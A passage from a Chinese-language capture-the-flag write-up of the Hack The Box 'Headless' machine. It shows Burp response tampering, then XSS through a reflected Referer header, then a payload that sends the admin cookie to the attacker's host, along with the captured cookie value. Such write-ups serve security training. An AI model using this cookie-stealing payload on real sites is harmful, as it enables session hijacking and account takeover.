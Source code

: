 ### 研究网页功能

#### 倒数结束无事发生

开启burp后再次访问网页，用burp拦截请求后右键选择`Response to this reuest`更改响应，减少其倒数时间，看看倒数结束后有什么事情发生。

![HTB-Headless-intercept](HTB-Headless-intercept.png)


将响应中的选中部分改为`5 * 1000`（即5秒）：

![HTB-Headless-change_rep](HTB-Headless-change_rep.png)

转发请求后网页显示倒数5秒：

![HTB-Headless-change_rep2](HTB-Headless-change_rep2.png)

倒数结束，无事发生：

![HTB-Headless-countdown_completed](HTB-Headless-countdown_completed.png)

#### 表单XSS获取Cookie

点击`For questions`按钮跳转到`http://10.10.11.8:5000/support`。尝试XSS，在表单中填入`<script>alert(0)</script>`后发送，网页响应一个WAF警告页面。

![HTB-Headless-WAF](HTB-Headless-WAF.png)

**注意到网页中显示了我们的请求头信息。** 同时，观察多次请求可以发现Cookie值是固定不变的，且变量名为`is_admin`，所以怀疑可以获取admin的cookie然后访问之前显示“Unauthorized”的`/dashboard`。

所以可以先测试一下请求头的XSS注入。  
burp拦截请求，随便改一个网页中有显示的请求头（此处修改Referer）为`<script>alert(0)</script>`。

![HTB-Headless-testXSS_Burp](HTB-Headless-testXSS_Burp.png)

发送后弹出alert窗口，证明有XSS漏洞。

![HTB-Headless-PoC_XSS](HTB-Headless-PoC_XSS.png)

另外可以查看网页源码发现HTML确实被修改。

![HTB-Headless-PoC_XSS2](HTB-Headless-PoC_XSS2.png)


接下来尝试获取Cookie。  
kali终端开启http服务。burp重放一下之前的请求，Referer头使用payload：`<img src=x onerror=fetch('http://10.10.14.8/?c='+document.cookie);>`——让WAF的警告界面加载不可用图片，触发`onerror`使其访问kali主机，并在URL中带上`document.cookie`参数——我们就可以在kali终端得知Cookie。  
可以发现admin的Cookie为：`ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0`。

![HTB-Headless-document_cookie](HTB-Headless-document_cookie.png)


## Initial Access
